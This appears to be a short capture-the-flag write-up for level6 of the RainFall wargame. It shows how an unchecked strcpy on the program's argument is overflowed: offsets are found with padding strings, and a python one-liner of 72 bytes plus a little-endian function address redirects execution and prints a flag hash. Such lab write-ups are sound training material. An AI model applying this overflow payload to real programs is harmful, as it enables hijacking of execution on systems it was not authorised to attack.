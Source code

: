 So this programs segfaults with no args
It doesnt read user input but rather uses launch args
It also uses strcpy which is not protected and can be used to overflow

/home/user/level6/level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

we get a crash at address 61616161

/home/user/level6/level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb

62626262

So we have the correct offset, maybe try to go to target function directly ? May not work with raw bytes 
Our target address is at 0x08048454

We can also see that the strcpy call uses an offset of 4 on the param

\x54\x84\x04\x08


$(python -c 'print( "a" * 72 + "\x54\x84\x04\x08"'))


level6@RainFall:~$ ./level6 $(python -c 'print( "a" * 72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d